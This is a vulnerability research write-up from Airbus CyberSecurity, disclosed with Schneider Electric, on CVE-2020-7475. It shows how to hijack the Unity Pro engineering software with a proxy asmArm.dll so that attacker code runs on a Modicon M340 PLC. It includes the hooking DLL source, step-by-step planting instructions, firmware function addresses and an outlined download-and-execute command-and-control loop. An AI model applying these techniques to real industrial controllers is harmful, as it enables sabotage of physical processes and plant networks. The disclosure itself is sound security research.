







Applying a Stuxnet Type Attack to a Modicon PLC (CVE-2020-7475)
===============================================================

*by Flavian Dola, Vulnerability Researcher [@_ceax](https://twitter.com/_ceax)*


*This study from Airbus CyberSecurity has been reviewed jointly with Schneider Electric. Please see the Security Notification [here](security_notification.md).*

In this article we will describe the process on how to perform a “Stuxnet type” attack on a Schneider Modicon M340 PLC. The end result was that we were able to design an automation program using C language and successfully execute malicious code on the M340 PLC.

This works was made with an older version of Unity (Unity Pro S V7.0 – 2012) and M340 (BMX P34 2020 2.50 – 2012).

It was developed for an advanced security training course on ICS that will be provided by Airbus CyberSecurity.


# Review of the Stuxnet method

Stuxnet targets Siemens S7-300 and S7-400 PLCs. In order to infect the device Stuxnet propagates from computer to computer until it finds an engineering workstation. The main role of the engineering workstation is to design process automation programs and transfer them to the PLC to run.  The specific software that Stuxnet targets on a Siemens PLC is called STEP7.



*Figure 1: Communication in STEP7/PLC*

As we can see in figure 1, STEP7 uses functions exported by s7otbxdx.dll to communicate with the PLC. For example: 

* *s7db_open* and *s7db_close* allows to establish a connection with PLCs
* *s7blk_findfirst* and *s7blk_findnext* permits to get a list of block code
* *s7blk_read* *s7blk_write* *s7blk_delete* permits to write/modify program code in blocks
* *s7ag_bub_read_var* *s7ag_bub_write_var* permits to modify program variables

Stuxnet replaces the original STEP7 DLL file (named “s7otbxdx.dll”) with its own malicious version. This method is known as “Reflective DLL”.



*Figure 2: Stuxnet DLL reflective in STEP7*

The aim of the Reflective DLL method is to hook all related functions to the PLC communications. The attackers then injected their own byte code into the PLC.

The byte code executed by the PLC is in MC7 format. This is a proprietary assembly code developed by Siemens.

The MC7 malicious byte code execution is controlled by Stuxnet by writing specific PLC variables. The Stuxnet MC7 code can either be denied or allowed to execute a legitimate automation program.

Now that we understand how Stuxnet works at a basic level we will attempt to execute something similar on a Schneider Electric PLC.


# Engineering software analysis

Schneider customers use EcoStruxure Control Expert engineering software, formerly called Unity Pro. Here is a description of how an automation program is developed.



*Figure 3: Engineering process*

Firstly the automation engineer designs a logical automation process in Unity. It can be designed in several different programming languages, for example Grafcet, Ladder, Structured Text and Instruction List. It is then compiled in Unity.

Unity transforms this program in an assembly language. In our case (CPU 340-20), the processor is an ARM920T which will produce ARM assembly code. Then Unity compiles it to generate the related bytecode.

The automation engineer uploads the program to the PLC and Unity transfers the bytecode. Once the engineer puts the PLC into “run mode”, the PLC’s OS (VxWorks) will periodically execute the automation program bytecode.

The final goal is to build and inject our own code into the PLC.

If we monitor all file access when launching a compiled program, we will see that Unity tries to create a file with an interesting extension *“C:/punitemp/BackendSection1.asm”*.



*Figure 4: Monitor of compilation stage*

Next we will create the directory c:\punitemp to see what happens when we relaunch the compiled program.  As you can see 3 files are created: *BackendSection1.asm* (Figure 4), *BackendSection2.asm* and *BackendScheduled3.asm*. 

Here is an extract of *BackendSection1.asm*:

```asm
[…]
DebugLabel2:
/* set the selector if needed */
/* setSwap */
/* set the swap selector */
LDRH R5,=0x28000168
LDR R7,[R5]
/* endSetSwap */
/* I_B0 */
/* I_B0 */
LDRB R0,[R7,#0x4] /* I_B0 */
/* */
/* SYMBOL_BOOL_0_VAL_STORE_N0DE_1 */
/* */
/* EA_CODE_VOID_NO_ARRAY_N0DE_2 */
AND R0,R0,#0x01
/* $LINK67 */
/* $LINK67 */
STRB R0,[FP,#-0x34] /* $LINK67 */
[…]
```

Now we have the log of the ASM source generated, Unity has added some useful comments.

For example:

* *I_B0* is a mnemonic symbol on our Ladder program
* $LINK67 certainly gives reference to a network in our Ladder program
* At the address 0x28000168 we have a pointer to our input state memory image

Which DLL generates this log? 

With the help of some easy commands like grep and string, we can identify a binary with an unambiguous name like asmArm.dll.



*Figure 5: asmArm export*

The *asmArm.dll* exports only 3 functions. Let’s add some breakpoints on those.



*Figure 6: Breakpoint before MyAsmArmStream*

Our breakpoint on *MyAsmArmStream* is reached, and if we follow the arguments in the stack, we can see that the first argument contains a pointer to our ASM source code.

Now we will execute the function *MyAsmArmStream* and see what happens.



*Figure 7: Breakpoint after MyAsmArmStream*

Here is the result of the function:

* The function returns a buffer address which contains a structure with a label, offset to bytecode, and finally the bytecode itself
* The second argument contains a pointer to an integer (0x103e) which is the returned buffer length 

So, we disassemble the byte code at the offset of the label *DebugLabel2* (offset bytecode+0x90) to ensure that we retrieve the ASM source code.

```
[…]
  bytecode+0x90 E0 58 9F E5 00 70 95 E504 00 D7 E5 01 00 00 E2 .X...p..........
  bytecode+0xa0 34 00 4B E5 15 30 A0 E303 10 87 E0 25 00 00 EB 4.K..0......%...
[…]
```

```asm
ldr r5, [pc, #0x8e0]
ldr r7, [r5]
ldrb r0, [r7, #4]
and r0, r0, #1
strb r0, [fp, #-0x34]

pc+0x8e0 00 A8 1B E9 50 01 00 28 68 01 00 28 00 00 00 00 ....P..(h..(....
```

We have recovered our original ASM source code, so *MyAsmArmStream* is in charge of the compiled processing. Therefore if we hook into this function, we will be able to inject our own “malicious” code.


# Unity infection

To hook into the compiled function, we rely on the Reflective DLL method. This method attempts to rename asmArm.dll to another name (for example: asm_Arm.dll) and creates a DLL with the name of the original one (asmArm.dll).

For this to work correctly, our DLL must do the following:

* Export the same exports as the original (3 functions in our case)
* Load the original DLL
* Transfer execution to the original function except for the function we want to hook into (*MyAsmArmStream* in our case)

Finally, our code looks as per below.

```c
// array that contains on original DLL exports
void *(table[3]);
__declspec(naked) void MyAsmArmStream(char* pAsmBuf, int* pInt1, int* pInt2)
{
__asm {
push ebp
mov ebp, esp
pushad
pushfd
}
// OUR MALICIOUS CODE GOES HERE !!!!
__asm {
popfd
popad
pop ebp
jmp table[0]
}
}
__declspec(naked) void __cdecl freeBinaryBuffer ( void )
{
__asm jmp table[4]
}
__declspec(naked) void __cdecl theOptimizer ( void )
{
__asm jmp table[8]
}
void localDllMain( void )
{
/* Handle on the original Dll */
HINSTANCE hOriginalDll;
hOriginalDll = LoadLibraryA(“C:\\Program Files (x86)\\Schneider Electric\\Unity Pro\\asm_Arm.dll”);
table[0] = GetProcAddress(hOriginalDll, MAKEINTRESOURCEA(1));
table[1] = GetProcAddress(hOriginalDll, MAKEINTRESOURCEA(2));
table[2] = GetProcAddress(hOriginalDll, MAKEINTRESOURCEA(3));
return;
}
void localDllClose( void )
{
return;
}
BOOL WINAPI DllMain(HINSTANCE hDll, DWORD fdwReason, LPVOID lpvReserved)
{
if ( fdwReason == DLL_PROCESS_DETACH )
{
localDllClose( );
}
if ( fdwReason == DLL_PROCESS_ATTACH )
{
localDllMain( );
}
return TRUE;
}
```

As we have seen before the *MyAsmArmStream* takes a buffer as an input parameter. This one contains the ASM source code.

Here are the descriptions of our modified *MyAsmArmStream* functions:

* Search end of user automation code in ASM source
* Add our instructions to the ASM source
* We choose instruction: *submit r4, r2, #0x20000004*
* Call the original *MyAsmArmStream* function
* Search in generated bytecode for the pattern 0x4242424242424242 (compiled form of *submit r4, r2, #0x20000004*) and replace it with another pattern 0xe1a08008e1a08008 (compiled form of NOP (No Operation) instructions: *mov r8, r8*)

Now we have our new DLL template. We have to generate the byte code we want to be executed on the PLC. We can then create our DLL by replacing the pattern 0xe1a08008e1a08008 with our byte code.

So now to execute our code on the PLC we have to:

1. Rename the original asmArm.dll to asm_Arm.dll 
2. Place our malicious asmArm.dll in the Unity folder
3. Run Unity and load the automation project
4. Run the compiled project
5. Stop the PLC automation program
6. Upload the automation to the PLC
7. Run the PLC automation program

Note: In order to limit User interaction, many of these steps can be done upon loading of our malicious DLL. These are not described here.

# Reverse of m340 Firmware and automation program

We are able to execute our own C code on the PLC. One of the first PLC programs that we are going to develop is a memory dumper.

After some crashes (due to access on unmapped addresses) we obtained this memory mapping:
* begin: 0x0 – end: 0x4000
* begin: 0x100000 – end: 0x120000
* begin: 0x200000 – end: 0x204000
* begin: 0x10200000 – end: 0x10201000
* begin: 0x10400000 – end: 0x10401000
* begin: 0x20000000 – end: 0x20B00000
* begin: 0x21000000 – end: 0x21200000
* begin: 0x28000000 – end: 0x28400000
* begin: 0x30000000 – end: 0x30400000
* begin: 0x40000000 – end: 0x40001000
* begin: 0x80000000 – end: 0x80100000
* begin: 0xFF000000 – end: 0xFF100000

After some analysis we identified some useful sections:

* At 0x0 we have the reset/interrupt vectors
* At 0x20000000 we have the OS code

# Identify the automation program code address

The function *sas_UserCodeExec* at address 0x20043bdc is in charge of periodically executing the automation program code. Therefore we need to understand how to retrieve the address where the code will be located.

```asm
;v_address_1     = -0x20
;v_address_0     = -0x1C
;pUserCode       = -0x18

MOV             R12, SP
STMFD           SP!, {R4,R6,R11,R12_pUserSection,LR,PC}
SUB             R11, R12, #4
SUB             SP, SP, #0xC
BL              ord_GetCurrentTskNB

LDR             R1, =UCodeTskTbl
MOV             R6, R0
LDR             R3, =PATPtr
ADD             R1, R1, R6,LSL#3
           ; (UCodeTskTbl_t*)R1 = UCodeTskTbl + TskNB * sizeof(UCodeTskTbl_t)
LDR             R12_pUserSection, [R3] ; g_user_section_28000000
LDRH            R2, [R1,#UCodeTskTbl_t.offsetInQwords]
LDMIA           R1, {R3,R4}
LDR             LR, [R12_pUserSection,R2,LSL#3]
ADD             LR, LR, R4
STR             LR, [R11,#pUserCode]
           ; pUserCode = pUserSection + pUCodeTskTbl->offsetInQwords + pUCodeTskTbl->offsetInBytes
LDR             R3, [R12_pUserSection,#(dword_28000158 - 0x28000000)]
LDR             R12_pUserSection, [R12_pUserSection,#(dword_28000170 - 0x28000000)]
CMP             R6, #4
LDR             R0, =EndScanCtxt
STR             R3, [R11,#v_address_1]
MOV             R2, R3  ; R9_address
MOV             R1, R12_pUserSection ; R8_address
LDRNE           R0, [R11,#pUserCode] ; pCode
STR             R12_pUserSection, [R11,#v_address_0]
BEQ             loc_20043C4C

loc_20043C40
BL              sas_JumpToCode

loc_20043C44
SUB             SP, R11, #0x14
SUB             SP, R11, #0x14
           ; pUserCode = pUserSection + pUCodeTskTbl->offsetInQwords + pUCodeTskTbl->offsetInBytes
LDR             R3, [R12_pUserSection,#(dword_28000158 - 0x28000000)]
LDR             R12_pUserSection, [R12_pUserSection,#(dword_28000170 - 0x28000000)]
CMP             R6, #4
LDR             R0, =EndScanCtxt
STR             R3, [R11,#v_address_1]
MOV             R2, R3  ; R9_address
MOV             R1, R12_pUserSection ; R8_address
LDRNE           R0, [R11,#pUserCode] ; pCode
STR             R12_pUserSection, [R11,#v_address_0]
BEQ             loc_20043C4C

loc_20043C40
BL              sas_JumpToCode

loc_20043C44
SUB             SP, R11, #0x14
LDMFD           SP, {R4,R6,R11,SP,PC}
```

We can see that the section address for the automation program is at 0x28000000. 

We also have an array that can contain many automation program entry points. This array is indexed by a task number. It may be corresponding to the task priority level (MAST, FAST, etc). In our case the task number is 4.

```asm
UCodeTskTbl
     UCodeTskTbl_t <0, 0, 0>
     UCodeTskTbl_t <0, 0, 0>
     UCodeTskTbl_t <0, 0, 0>
     UCodeTskTbl_t <0, 0, 0>
     UCodeTskTbl_t <0x52, 0, 0>
     UCodeTskTbl_t  <0>
     UCodeTskTbl_t  <0>
     UCodeTskTbl_t  <0>
     UCodeTskTbl_t  <0>
```

The entry point of our automation program is: 0x28000000 + 0x52 * 8 => 0x28000290

# Identify OS Function

With the help of VxWorks SDK documentation, it becomes easy to identify OS functions. For example we can identify socket functions thanks to its reference string.

```
; int __cdecl socket(int domain, int type, int protocol)
socket


local_1c        = -0x18

                MOV             R12, SP
                STMFD           SP!, {R4,R5,R11,R12,LR,PC}
                CMP             R0, #0x22 ; '"'
                SUB             R11, R12, #4
                SUB             SP, SP, #4
                BHI             loc_201C42B8

                LDR             R12, =sockLibMap
                LDR             R5, [R12,R0,LSL#2]
                CMP             R5, #0
                SUB             R3, R11, #-local_1c
                BEQ             loc_201C42B8

                MOV             LR, PC
                LDR             PC, [R5,#0x3C]

                MOV             R2, R0
                CMN             R2, #1
                LDR             R0, =socketDevHdr
                BEQ             loc_201C42B0

                LDR             R3, [R11,#local_1c]
                LDR             R1, [R0,#(off_2040E7C8 - 0x2040E7BC)] ; "(socket)"
[…]
```

Here are some useful functions that we use in the payloads:

```c
#ifndef WRAPPER_C
#define WRAPPER_

#include "include/types.h

#ifndef WRAPPER_H
    // if this file is not included in the wrapper.h file, create dummy functions
    #define VOID_DUMMY { ; }
    #define RETURN_DUMMY { ; return 0; }

    #define AT(ADDR) __attribute__((weak, at(ADDR, "dummy", 0, 0)))
#else
    // if this file is included in the wrapper.h file, create prototypes
    #define VOID_DUMMY ;
    #define RETURN_DUMMY ;
    #define AT(ADDR)
#endif

//0x2014C75C
int atoi(const char *nptr)
RETURN_DUMMY

//0x2014D6FC
void memset(char *buf, char myChar, int sz)
VOID_DUMMY

//0x2014D6FC
void* malloc(uint32_t sz
RETURN_DUMMY

// 0x202053EC
void free(void *ptr)
VOID_DUMMY

//0x201C4240
int socket(int domain, int type, int protocol)
RETURN_DUMMY

//0x201C499C
int setsockopt(int sockfd, int level, int optname,
                      const void *optval, int optlen)
RETURN_DUMMY

//0x201C44CC
int connect(int sockfd, void *addr, int addrlen)
RETURN_DUMMY

//0x201FA770
int close(int fd)
RETURN_DUMMY

//0x201F9090
int read(int fd, void *buf, int count)
RETURN_DUMMY

//0x201F9258
int write(int fd, const void *buf, int count)

//0x2017A96C
uint32_t inet_addr(const char *cp)
RETURN_DUMMY


#undef VOID_DUMMY
#undef RETURN_DUMMY
#undef AT

#endif /*WRAPPER_C*/
```


# Designing the payload

The steps to change the “malicious” payload are as below: 

* Compile the payload
* Patch asmArm.dll
* Copy asmArm.dll into the Unity installation folder
* Launch Unity
* Load the automation project
* Recompile the project
* Set the PLC to stop mode
* Upload the program to the PLC
* Set the PLC to start mode

These steps are very time consuming. If we upload a program that permits the execution of a payload on demand, we could change the PLC behavior on the fly. A download-execute program will correspond exactly to our needs. Here is how it works:

1. Allocate a buffer where the payload to be executed will be stored
2. Send the buffer address to the C&C (Command and Control) IP
3. Download the payload from the C&C
4. Execute the payload
5. Return to step 3

With this program we are able to modify the automation process, and then transform the PLC to a network scanner for example. Also as an example the PLC could behave as a proxy for the local network.


# Conclusion

Implementing Stuxnet type attacks on PLC’s from other manufacturers is possible. In the case of the Modicon M340, this porting is easier because the PLC executes ARM bytecode natively (and not proprietary assembly code).

This exercise gives us the opportunity to extend M340 functionality by developing automation code directly in C. Now we can perform low level actions which are very difficult to do with other languages (e.g Ladder, Grafcet).

We developed a program that allows the changing of logical programs on the fly (no need for recompilation – *stop* – *upload* – *start* steps in Unity)

As previously mentioned the tasks performed in this document were carried out with and older version of Unity (Unity Pro S V7.0 – 2012) and M340 (BMX P34 2020 2.50 – 2012). Today this PLC is still used in the real word, however we did not check if all the described items in this document are valid on newer software versions.

Please find the Security Notification by Schneider Electric [here](https://www.se.com/ww/en/download/document/SEVD-2020-080-01/). 